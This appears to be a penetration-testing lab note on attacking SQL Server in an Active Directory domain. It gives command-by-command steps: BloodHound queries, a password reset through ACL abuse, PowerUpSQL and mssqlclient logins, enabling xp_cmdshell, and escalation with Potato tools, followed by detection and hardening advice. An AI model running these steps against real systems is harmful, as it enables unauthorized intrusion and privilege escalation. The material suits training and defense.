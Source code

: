 

## Summary

- SQL Server instances commonly expose privileged user/service accounts with `sysadmin` rights.
    
- Credentials can be obtained via: Kerberoasting, LLMNR/NBT-NS spoofing, password spraying, or by finding connection strings (e.g., `web.config`) with tools like **Snaffler**.
    
- **BloodHound** helps find `SQLAdmin` relationships; combine ACL abuse and local password changes to authenticate and run OS commands via SQL.
    
- Common attack chain: discover → authenticate → enable `xp_cmdshell` (or use SQL Agent) → run OS commands → escalate (e.g., `SeImpersonatePrivilege` → JuicyPotato/RoguePotato).
    

---

## Recon / Discovery

- Look for SQL servers in the domain and accounts with `SQLAdmin` / `sysadmin` rights.
    
- Tools:
    
    - BloodHound (check **Node Info** for SQLAdmin edges or run Cypher queries).
        
    - PowerUpSQL (PowerShell module) — domain enumeration helpers.
        
    - Impacket `mssqlclient.py` — connect from Linux.
        
    - Snaffler — hunt for config files (e.g., `web.config`) with connection strings.
        

### Useful BloodHound Cypher to find SQLAdmin edges

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer)
RETURN p2
```

![[Pasted image 20251004194007.png]]
---

## ACL abuse → change password → authenticate

- If you have ACL rights to change a user password (e.g., `wley` can reset `damundsen`), change the password and authenticate to the SQL instance as that user.
    
- Example: changed `damundsen` password to `SQL1234!` (example only, use valid creds in real test).
    

---

## PowerUpSQL (Windows) — quick commands

Load module and enumerate:

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb> Import-Module .\PowerUpSQL.ps1
PS C:\htb> Get-SQLInstanceDomain
```

Sample output fields to note:

- `ComputerName`
    
- `Instance` (host,port)
    
- `DomainAccount` / `DomainAccountCn`
    
- `Service` / `SPN` / `LastLogon`
    

Query example:

```powershell
PS C:\htb> Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" `
  -username "INLANEFREIGHT\damundsen" -password "SQL1234!" -query 'Select @@version'
```

- If connection succeeds, you can run arbitrary T-SQL queries; some allow OS interaction.
    

---

## Impacket `mssqlclient.py` (Linux)

Usage and options:

```
$ mssqlclient.py  # shows options
```

Connect example (Windows auth):

```
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Password:
```

- On connect, type `help` to see commands.
    

Common `mssqlclient` shell cmds:

```
lcd {path}                 - change local dir
exit                       - terminate session
enable_xp_cmdshell         - enable xp_cmdshell
disable_xp_cmdshell        - disable xp_cmdshell
xp_cmdshell {cmd}          - run OS command via xp_cmdshell
sp_start_job {cmd}         - execute via SQL Agent (blind)
! {cmd}                    - execute local shell cmd
```

---

## Enabling and using `xp_cmdshell`

1. Enable:
    

```sql
-- via SQL session
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Or via `mssqlclient` shortcut:

```
SQL> enable_xp_cmdshell
```

2. Execute OS commands:
    

```sql
xp_cmdshell 'whoami /priv';
xp_cmdshell 'ipconfig /all';
xp_cmdshell 'dir C:\';
```

- `xp_cmdshell` allows running arbitrary OS commands if account has rights to enable/execute it.
    

---

## Privilege enumeration & escalation hints

- After running `xp_cmdshell whoami /priv`, note privileges:
    
    - `SeImpersonatePrivilege` — commonly usable with **JuicyPotato**, **RoguePotato**, **PrintSpoofer** to escalate to SYSTEM.
        
    - `SeAssignPrimaryTokenPrivilege` / `SeIncreaseQuotaPrivilege` / others — take note which are enabled/disabled.
        
- If `SeImpersonatePrivilege` is present and target OS/NT service configuration is exploitable, pursue token impersonation exploit to SYSTEM.
    

---

## Short attack flow (cheat-sheet)

1. [ ] Find SQL instances & SQLAdmin accounts (BloodHound / Snaffler / nmap / PowerUpSQL).
    
2. [ ] Obtain/obtain ability to change account password via ACL / Kerberoast / other creds.
    
3. [ ] Authenticate to SQL (PowerUpSQL / mssqlclient).
    
4. [ ] Enable `xp_cmdshell` (or abuse SQL Agent jobs).
    
5. [ ] Run OS commands, dump credentials, enumerate privileges.
    
6. [ ] If `SeImpersonatePrivilege` available → escalate with JuicyPotato/PrintSpoofer/RoguePotato.
    
7. [ ] Expand laterally from SYSTEM context.
    

---

## Quick detection / defense notes (blue team)

- Monitor and alert on:
    
    - Enabling `xp_cmdshell` or changes to `show advanced options`.
        
    - Creation or modification of SQL Agent jobs executing OS commands.
        
    - Unusual domain account SQL authentications, especially from non-app servers.
        
    - Password changes for privileged SQL accounts by unexpected principals.
        
- Hardening recommendations:
    
    - Disable `xp_cmdshell` unless strictly required.
        
    - Limit service accounts and avoid using domain admins as SQL service accounts.
        
    - Use Managed Service Accounts or gMSAs for SQL services where possible.
        
    - Monitor BloodHound-like graphs internally to proactively identify risky `SQLAdmin` relationships.
        
